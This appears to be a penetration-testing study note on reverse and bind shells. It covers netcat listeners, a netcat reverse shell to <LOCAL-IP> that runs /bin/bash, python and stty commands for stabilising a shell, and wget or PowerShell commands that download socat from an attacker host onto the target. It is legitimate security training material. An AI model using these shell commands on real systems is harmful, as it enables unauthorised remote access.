

# PRIVILEGE ESCALATION 

## WHAT THE SHELL 

TOOLS 
- netcat
- socat
- metasploit -- multi/handler
> auxiliary/multi/handler 
- msfvenom

Aside from the tools we've already covered, there are some repositories of shells in many different languages 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Kali ( PreInstalled) - `/usr/share/webshells`

**TYPES OF SHELL**

- Reverse Shell 
> Reverse shells are when the target is forced to execute code that connects back to your computer 
- Bind Shell 
> Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.
> This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target

### TYPES OF SHELL 


**Reverse Shell**   
Nine times out of ten, this is what you'll be going for .


On the attacking machine:
```
sudo nc -lvnp 443
```

On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

**Bind Shell**  
Bind shells are less common, but still very useful.

On the target:
```
nc -lvnp <port> -e "cmd.exe"
```

On the attacking machine:
```
nc MACHINE_IP <port>
```

### NETCAT Shell Stabilisation 

**TECHNIQUE 1: python**  
The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

- The first thing to do is use **python -c 'import pty;pty.spawn("/bin/bash")'**, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace **python** with **python2** or **python3** as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
- Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
- Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.



**TECHNIQUE 2: rlwrap**

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap.`

To use rlwrap, we invoke a slightly different listener:
```
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.


**TECHNIQUE 3: Socat**   
> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true 
> binary 

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


 


